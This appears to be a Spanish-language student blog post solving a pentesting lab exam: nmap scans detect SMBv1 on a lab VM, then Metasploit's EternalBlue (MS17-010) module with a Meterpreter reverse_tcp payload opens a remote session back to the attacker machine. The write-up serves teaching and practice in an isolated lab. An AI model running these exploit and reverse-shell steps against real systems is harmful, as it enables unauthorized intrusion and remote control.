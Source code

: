 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 19:10:00 -05:00
categories: [Reconnaisance, Kill Chain, Pentesting]
tags: [nmap, kali, metasploit]  # TAG names should always be lowercase
---
```



# RESOLUCION DE EXAMEN PARCIAL

para iniciar con nuestro laboratorio tenemos que :
para nuestra maquina kalilinux: 10.0.2.9
para nuestra maquina metasploit: 10.0.2.4
![virtual](/assets/images/virtual.png)

con ello podremos realizar nuestro primer paso:

1. Utiliza Nmap desde tu máquina atacante para descubrir servicios activos en la máquina objetivo. Debes identificar los puertos relacionados con SMB y verificar si SMBv1 está habilitado.
```bash 
        nmap -sV -p- -oA smb_scan 10.0.2.4.
```


donde:
- -sV: Realiza una detección de versión de los servicios.
- -p-: Escanea todos los puertos, del 1 al 65535.
- -oA smb_scan: Guarda los resultados del escaneo en archivos con el prefijo 
"smb_scan".
- 10.0.2.4: es la IP de nuestra victima.

![dos](/assets/images/dos.png)

 
obteniendo como respuesta la siguiente imagen:
![tres][def]

[def]: /assets/images/tres.png

por lo que averiguo un poco mas sobre el SMBv1 y ejecuto este otro comando:
```bash 
        nmap -p 139,445 --script=smb-protocols <10.0.2.4>
```
explicando un poco a lo averiguado:
- los puertos 139 y 445 son los puertos asociados con el servicio SMB.
- El flag --script=smb-protocols indica a Nmap que utilice el script "smb-protocols" para enumerar los protocolos SMB habilitados en el servidor.
- Al analizar la salida del comando, busco específicamente el término "SMBv1" o "NT LM 0.12" en la lista de protocolos SMB detectados.
- Si veo una línea que indica "SMBv1: Enabled" o "NT LM 0.12: Supported", entonces puedo confirmar que el servicio SMBv1 está habilitado en el servidor objetivo.

gracias a la ayuda del tip brindado, y obtengo la siguiente respuesta:
![cuatri](/assets/images/cuatro.png)

explicando un poco mas lo encontrado respecto al comando de nmap en los puertos 139,445. Segun lo que muestra estos puertos estan abiertos, el puerto 139/tcp es un servicio netbios -ssn, el puerto 445/tcp es un servicio microsoft-ds y estos puertos estan asociados con el servicio SMB.

smb-protocols fue utilizado para enumerar los protocolos SMB habilitados, el resultado muestra que el protocolo NT LM 0.12 o SMBv1 esta presente, y se lo describe como peligroso pero esta como predeterminado. Esto indica que el servidor tiene habilitado el servicio SMBv1 que en un principio se habia habilitado segun las indicaciones del docente. Algo adicional que se podria indicar es que el escaneo se completo en 0.22 segundos.

2. segun los resultados del escaneo con NMAP, el servidor objetivo tiene habilitado el servicio SMBv1, lo cual lo hace vulnerable a diversos ataques, entre ellos el exploit eternalBlue MS17-010.

* segun su tip, para explotar esta vulnerabilidad utilizaremos el framework metasploit y seleccionare el modulo:
```bash 
        exploit/windows/smb/ms17_010_eternalblue
```
## pasos
 para ejecutar el modulo entraremos primero a metasploit con el comando 
 ```bash 
        msfconsole -q
```

luego usaremos el modulo:
```bash 
        use exploit/windows/smb/ms17_010_eternalblue
```
donde configuraremos los parametros necesarios para el exploit, por ejemplo:
- set RHOSTS 10.0.2.4
- set LHOST 10.0.2.9
- set RPORT 445

![cinco](/assets/images/cinco.png)

![seis](/assets/images/seis.png)

explicando un poco lo que se ha realizado, es que este modulo aprovecha la vulnerabilidad CVE-2017-0143, conocida como EternalBlue, que afecta a la implementacion del protocolo SMBv1 en sistemas Windows. Esta vulnerabilidad permite ejecutar el codigo arbitrario en el sistema objetivo a traves de un desbordamiento de bufer en el procesamiento de paquetes SMB maliciosos.

Al ejecutar este modulo, metasploit enviara los payloads SMB necesarios para explotar esta vulnerabilidad y establecer una conexion de reverse shell desde el sistema objetivo hacia nuestra maquina atacante. Esto permitira obtener acceso remoto y control sobre el sistema objetivo.

![siete](/assets/images/siete.png)

segun la respuesta de este modulo se puede apreciar que metasploit identifica que el servidor objetivo 10.0.2.4 es vulnerable a MS17-010 EternalBlue, que afecta a windows.
se establece una conexion con el servidor objetivo para realizar la explotacion, una vez realizada esta conexion se procede a un volcado del bufer de memoria cruda del servidor, se envian los payload SMB maliciosos para explotar la vulnerabilidad. 
La expotacion se completa con exito, indicado por la salida ETERNALBLUE overwrite completed successfully, posterior a ello se envia una señal de control a la conexion corrupta. 

adicionalmente indico un tip el cual era realizar un payload, este "windows/x64/meterpreter/reverse_tcp", nos permite obtener una seseion de meterpreter despues de que el exploit sea ejecutado con exito. Este establecere una conexion de reverse shell.

![ocho](/assets/images/ocho.png)

una vez generado este exploit procedo a documentar primero la sesion meterpreter en la maquina victima si el ataque es exitoso.

![nueve](/assets/images/nueve.png)

para mi caso el mensaje de salida de metasploid indica que, METERPRETER SESION 2 OPENEDED 10.0.2.9:4444   10.0.2.4:49279  2024-11-03 a las 16:25:03 -8


![nueve](/assets/images/nueve.png)

esto confirmaria que la explotacion fue exitosa y se establecio una sesion de meterpreter en la maquina atacante y el servidor objetivo.


